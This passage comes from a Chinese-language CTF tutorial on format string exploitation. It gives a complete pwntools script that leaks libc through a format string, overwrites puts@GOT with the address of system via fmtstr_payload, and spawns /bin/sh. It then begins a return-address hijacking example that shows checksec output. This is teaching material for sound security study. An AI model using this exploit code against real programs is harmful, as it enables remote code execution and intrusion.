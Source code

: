 ```python

##password
password()
## get the addr of puts
puts_got = pwn3.got['puts']
log.success('puts got : ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

## get addr of system
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr : ' + hex(system_addr))

## modify puts@got, point to system_addr
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
##gdb.attach(sh)
sh.sendline('/bin/sh;')

## system('/bin/sh')
show_dir()
sh.interactive()
```

注意

- 我在获取 puts 函数地址时使用的偏移是 8，这是因为我希望我输出的前 4 个字节就是 puts 函数的地址。其实格式化字符串的首地址的偏移是 7。
- 这里我利用了 pwntools 中的 fmtstr\_payload 函数，比较方便获取我们希望得到的结果，有兴趣的可以查看官方文档尝试。比如这里 fmtstr\_payload(7, {puts\_got: system\_addr}) 的意思就是，我的格式化字符串的偏移是 7，我希望在 puts\_got 地址处写入 system\_addr 地址。默认情况下是按照字节来写的。

## hijack retaddr

### 原理

很容易理解，我们要利用格式化字符串漏洞来劫持程序的返回地址到我们想要执行的地址。

### 例子

这里我们以三个白帽-pwnme\_k0 为例进行分析。

#### 确定保护

```shell
➜  三个白帽-pwnme_k0 git:(master) ✗ checksec pwnme_k0
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
